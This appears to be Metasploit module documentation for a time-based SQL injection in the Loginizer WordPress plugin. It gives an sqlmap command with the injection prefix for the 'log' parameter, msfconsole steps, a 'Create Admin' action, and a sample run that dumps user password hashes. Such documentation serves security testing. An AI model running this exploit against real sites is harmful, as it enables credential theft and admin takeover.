 ## Vulnerable Application

Loginizer wordpress plugin contains an unauthenticated timebased SQL injection in
versions before 1.6.4.  The vulnerable parameter is in the `log` parameter.

Wordpress has forced updates of the plugin to all servers.  To test this exploit, the server
must not have a connection to the internet.

All versions can be downloaded from [wordress.org](https://wordpress.org/plugins/loginizer/advanced/)
or [1.6.3](https://downloads.wordpress.org/plugin/loginizer.1.6.3.zip)

This module slightly replicates sqlmap running as:
```
python3 sqlmap.py -u http://local.target/wp-login.php --method='POST' --data='log=&pwd=password&wp-submit=Log+In&redirect_to=&testcookie=1' -p log --prefix="', ip = LEFT(UUID(), 8), url = ( TRUE " --suffix=") -- wpdeeply" --dbms mysql --technique=T --time-sec=1 --current-db
```

## Verification Steps

1. Disconnect the server from the internet
1. Install the plugin on wordpress
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_loginizer_log_sqli`
1. Do: `set action [action]`
1. Do: `run`

## Options

### ACTION: List Users

This action lists `COUNT` users and password hashes.

### ACTION: Create Admin

### COUNT

If Action `List Users` is selected (default), this is the number of users to enumerate.
The larger this list, the more time it will take.  Defaults to `1`.

## Scenarios

### Wordpress 5.4.2 with Loginizer 1.6.3 on Ubuntu 20.04 using MariaDB 10.3.22

#### List Users

```
resource (loginizer.rb)> use auxiliary/scanner/http/wp_loginizer_log_sqli
resource (loginizer.rb)> set verbose true
verbose => true
resource (loginizer.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf6 auxiliary(scanner/http/wp_loginizer_log_sqli) > set count 3
count => 3
msf6 auxiliary(scanner/http/wp_loginizer_log_sqli) > run

[*] Checking /wp-content/plugins/loginizer/readme.txt
[*] Found version 1.6.3 in the plugin
[+] Vulnerable version detected
[*] {SQLi} Executing (select group_concat(XMjgCKOLn) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) XMjgCKOLn from wp_users limit 3) ZtmrJNCuJ)
[*] {SQLi} Time-based injection: expecting output of length 124
[+] wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1
 editor      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
